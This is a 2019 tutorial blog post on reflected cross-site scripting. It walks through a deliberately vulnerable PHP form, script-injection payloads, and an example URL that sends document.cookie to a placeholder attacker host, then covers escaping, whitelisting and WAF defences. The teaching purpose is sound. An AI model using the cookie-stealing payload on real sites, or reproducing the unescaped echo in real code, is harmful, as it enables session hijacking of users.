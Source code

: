 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


# Introduction
So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a form that I have written.

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      echo "<p>Hi " . $_GET['fname'] . "!</p>";
    }
  ?>
</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)

After typing in my name, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking "isn't this how the form should work". But what if someone submits the following text as input.

```html
<b>Abhishek</b>
```

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

```html
<p>Hi <b>Abhishek</b>!</p>
```

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/5.png)

When the browser looks at the HTML, it sees the `<b>` tag and thinks that text in between is supposed to be rendered bold. This ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we were to pass javascript code in the text field. Let's try the following input.

```javascript
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/4.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/xss-1.png)

When the browser sees the `<script>` tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```javascript
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

# Well, how can we prevent XSS? 
Some of the ways we can prevent XSS are:

* Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, `<` is replaced with `&lt;`. This means that when the page is returned back to the user, the browser sees `&lt;`,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can also be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Let's use the two functions and see what happens. 

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action='<?php echo htmlspecialchars($_SERVER["PHP_SELF"], ENT_QUOTES, "utf-8"); ?>'>
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      $first_name = $_GET['fname'];
      $first_name = htmlspecialchars($first_name);
      $first_name = strip_tags($first_name);
      echo "<p>Hi " . $first_name . "!</p>";
    }
  ?>
</body>
</html>
```

Now when we try to input javascript code, we get the following ouput. 

![encoded](../../assets/images/xss/specialchars-1.png)

By looking at the source, we can see that the tags are converted to entities and are rendered instead of interpreted by the browser.

![source-encoded](../../assets/images/xss/sourcechars.png)


* Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

* A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is that can be utilized (with care!) is provided by ModSecurity.

Note that this post serves to only give a basic idea on XSS. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. For an in depth guide on XSS, check out OWASPs post on ![XSS][https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)]. In a later post, I will talk about Stored XSS. 